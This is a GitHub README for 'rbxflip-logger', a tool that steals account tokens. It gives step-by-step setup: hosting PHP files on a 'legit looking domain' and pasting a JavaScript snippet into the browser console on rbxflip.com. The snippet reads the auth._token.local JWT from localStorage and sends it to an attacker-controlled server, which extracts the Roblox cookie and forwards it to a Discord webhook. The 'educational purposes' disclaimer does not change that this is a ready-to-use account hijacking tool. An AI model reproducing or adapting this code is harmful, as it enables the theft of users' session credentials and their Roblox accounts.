 # rbxflip-logger
 since some people are selling that for $25 I decided to make one myself rq since it's really easy and people shouldn't waste their money on it,
 made it really quick, you can add more stuff (in sc.php) to get more informations about the cookie using the roblox api.


# How to use
1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console:
```
var token = localStorage.getItem('auth._token.local');
await fetch("https://yourdomain.com/cl.php?t=" + token);
```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, but people are selling this shit for $25 lol.



# Disclaimer
## I, the creator, am in no way responsible for any actions that you may make using this software. You take full responsibility with any action taken using this software. Please take note that this application was designed for educational purposes and should never be used maliciously. By downloading the software or source to the software, you automatically accept this agreement.
